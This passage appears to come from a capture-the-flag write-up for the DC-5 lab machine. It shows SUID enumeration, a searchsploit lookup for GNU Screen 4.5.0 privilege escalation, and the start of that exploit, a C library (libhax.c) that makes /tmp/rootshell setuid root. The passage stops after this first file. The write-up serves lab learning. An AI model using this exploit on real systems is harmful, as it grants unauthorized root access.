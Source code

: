 Looking at SUID files, `/bin/screen-4.5.0` seem suspicious to me.
```
www-data@dc-5:~/html$ find / -perm -4000 2>/dev/null
/bin/su
/bin/mount
/bin/umount
/bin/screen-4.5.0
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/sbin/mount.nfs
```

Here is an exploit I found on searchsploit.
```bash
$searchsploit screen 4.5.0
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                        | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                  | linux/local/41152.txt
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
The exploit has 3 steps. Two compile and one is exploit.

The files are

### 1. libhax.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
